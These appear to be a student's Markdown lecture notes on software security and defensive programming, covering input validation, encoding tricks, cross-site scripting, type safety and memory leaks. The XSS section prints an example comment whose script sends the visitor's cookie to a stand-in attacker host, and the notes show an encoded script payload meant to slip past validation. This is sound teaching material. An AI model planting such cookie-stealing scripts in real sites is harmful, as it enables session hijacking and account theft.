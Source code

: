 # Software Security
Preventing vulnerabilities is the best fix available.
However that's not always possible because developers sometimes are monkeys (*me included*).
**Software security** is the practice to write **safe code** and handling correctly I/O to prevent vulnerabilities to occur.
## Terminology
- Prevention
  Improved methods for specifying and building software.
- Detection
  Efficient testing techniques.
- Mitigation
  Resilient architecture, *see defense in depth.*
## CWE TOP 10
A list of the most dangerous and common vulnerabilities.
## Defensive programming
Designing and implementing software so that it **keeps working** even under attack; it should detect erroneous conditions (attack attempts) and either:
- Fail gracefully
- Keep working **safely**
Usually developers focus on *the shit is working*, instead of *the shit is safe*.
Translating this: 
Developers **focus on steps for success** rather than considering all
possible points of failures. Security is not granted, it can't be achieved if not in the design.
Defensive programming requires knowledge and awareness of what happens if a system is vulnerable, common attack techniques.
### Golden rule for defensive programming
Don't assume anything and handle error states.
# How to do defensive programming
## Handle program input
As previously said, don't assume the validity of input.
**Check the constraints and the validity of input** (e.g. check the array size, an array of size -123168 is *probably* invalid).
### Input interpreting
Sometimes, different charset mess things up.
An input like `hello%2Fscript%3Ealert(1)%3Cscript` might bypass input validation but execute as `<script>alert(1)</script>` after decoding.
### What happens if this step fails
The attacker injects a malicious payload to affect the flow of execution (expected behavior) of the program, sounds like [[Lezione10#SQL Injection|SQL Injection]].
Other type of attack include:
- Code injection (shell-codes)
- File inclusion attacks
### Cross-site scripting (XSS)
Browser usually limit script access to pages that belong to the same site; however that content is trusted. What if an user can post a malicious snippet of code and make it render on the page? *Disaster*
Example: a comment like
```html
Thanks for this information, it’s great! 
<script>
document.location='http://hacker.web.site/cookie.cgi?'+document.cookie 
</script>
```
Well shit, what can a developer do?
- Whitelist/Blacklist mechanism
  Allow only specified set of characters/words, often by using regular expressions (regex).
## Writing safe code
Writing correct implementations, like a proper random number generator.
- Use strongly typed languages when possible, they ensure data consistency. C is funny but it leads to **too much freedom**, example:
```c
int main() {
    // Declare a function pointer
    void (*func_ptr)() = (void (*)())&func_ptr;

    // Call the "function"
    func_ptr();

    return 0;
}
```
Basically you can cast anything to everything (a dog can be a cat, crazy.)
Data should be interpreted consistently to prevent inappropriate
manipulation, leading to flaws/bugs like the previous code. These bugs might be exploited to crash the program or subvert execution.
### Correctly using memory
Programs often allocate memory on the heap. Memory should be released when the tasks have been performed. Else, a memory leak can happen, that is: incorrect use of memory might steadily increase memory allocation, exhausting it.
## Handling interaction
**Environment variables**: a collection of string values inherited by each process from its parent that can affect the way a running process behaves.